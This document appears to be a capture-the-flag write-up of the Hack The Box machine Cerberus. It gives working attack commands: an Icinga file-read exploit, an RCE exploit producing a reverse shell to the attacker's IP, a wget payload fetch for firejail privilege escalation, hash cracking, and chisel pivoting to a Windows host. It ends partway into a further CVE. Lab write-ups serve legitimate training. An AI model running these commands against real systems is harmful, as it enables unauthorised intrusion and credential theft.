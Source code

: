 # [Cerberus](https://app.hackthebox.com/machines/Cerberus)

```bash
nmap -p- --min-rate 10000 10.10.11.205 -Pn
```

![alt text](img/image.png)


Let's do greater scan for this port.
```bash
nmap -A -sC -sV -p8080 10.10.11.205
```

![alt text](img/image-1.png)


From here, I see resolving into `icinga.cerberus.local` domain name, that's why I add this ip address into `/etc/hosts` file.


Let's open our application to find interesting stuff from here.

![alt text](img/image-2.png)


That's `Icinga` application, let's search publicly known exploit for this.

I found `Arbitrary File Disclosure` that can read files which are sensitive, that's [CVE-2022-24716](https://www.exploit-db.com/exploits/51329)

![alt text](img/image-3.png)


Note: By the way, there's no any authentication to read this files.

Let's try this for our target.
```bash
curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/{file_path}
```

![alt text](img/image-4.png)


Now, I search file which consist of credentials of `Icinga` application from document [itself](https://icinga.com/docs/icinga-web/latest/doc/03-Configuration/).

![alt text](img/image-5.png)


Let's read from `/etc/icingaweb2` directory.

![alt text](img/image-6.png)


Let's take credentials from here.

matthew: IcingaWebPassword2023


I can login to web application's login page via this credentials.

![alt text](img/image-7.png)


Then I found `RCE` exploit for this version of `Icinga` ,but it is authenticated one which CVE id is [CVE-2022-24715](https://github.com/JacobEbben/CVE-2022-24715).

![alt text](img/image-8.png)


Due to description of this script, let's do our attack.

First, we need to genereate `PEM` file
```bash
ssh-keygen -m pem
```

Then, we need to run our exploit as below.
```bash
python3 exploit.py -t http://icinga.cerberus.local:8080/icingaweb2/ -I 10.10.14.17 -P 1337 -u matthew -p IcingaWebPassword2023 -e /root/.ssh/id_rsa
```

![alt text](img/image-9.png)


Hola, I got reverse shell from port `1337`.

![alt text](img/image-10.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-11.png)


For privilege escalation, let's find files which have `SUID` binaries via below command.
```bash
find / -perm -4000 2>/dev/null
```

![alt text](img/image-12.png)


I see `firejail` binary as interesting from here, let's search publicly known exploit for this.

I found this [exploit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25)

Let's download this into our machine, then open http server to upload into target machine.

First, we need to open http.server to serve this exploit.
```bash
python3 -m http.server --bind 10.10.14.17 8080
```
![alt text](img/image-13.png)

Then, download this `exploit.py` script from here via `wget` command.
```bash
wget http://10.10.14.17:8080/exploit.py
```

![alt text](img/image-14.png)

Let's run this exploit.

![alt text](img/image-15.png)

We need to open another terminal.

![alt text](img/image-16.png)

As I am `root` user, let's make interactive shell.

![alt text](img/image-17.png)


While running `ifconfig`, I see that this machine have another internal ip address called '172.16.22.2'.

![alt text](img/image-18.png)


Let's see another machines on network via `ping` command. We do like `Network Discovery` to detect another machines.

```bash
for i in {1..254}; do (ping -c 1 172.16.22.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```

![alt text](img/image-19.png)


Let's upload `nmap` binary into machine to analyze this machines.

![alt text](img/image-20.png)

Port `5985` means `WinRM` protocol for `172.16.22.1` machine.


Let's search for credentials in this machine and I found `cache_cerberus_local.ldb` file on `/var/lib/sss/db` directory and read this content via `strings` command.

![alt text](img/image-21.png)


There's password hash we see, let's crack this via `hashcat` tool.
```bash
hashcat -m 1800 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![alt text](img/image-22.png)

matthew: 147258369


Let's do `Pivoting` via `chisel` binary. We do `Dynamic Port Forwarding` to enumerate.

First, we need to ensure ourselves that we have `proxychains4.conf` file like below.
```bash
# defaults set to "tor"
socks5 127.0.0.1 1080
```


Second, we create `chisel` server on attacker machine.
```bash
chisel server -socks5 -reverse -port 8000
```

![alt text](img/image-23.png)

Then, we need to run this command on our target.
```bash
./chisel_1.9.1_linux_amd64 client 10.10.14.17:8000 R:socks 
```

![alt text](img/image-24.png)


Now we can login into this machine via `evil-winrm` command.
```bash
proxychains evil-winrm -i 172.16.22.1 -u matthew -p 147258369
```

user.txt

![alt text](img/image-25.png)


Let's look at `TCP` ports via `netstat` command.
```bash
netstat -ano | findstr "TCP"
```

![alt text](img/image-26.png)


There I see port `9251` which is interesting, I search exploit for this port and found this.

![alt text](img/image-27.png)


That's actually [CVE-2022-47966](https://github.com/horizon3ai/CVE-2022-47966).


Let's see port `9251`.

![alt text](img/image-28.png)


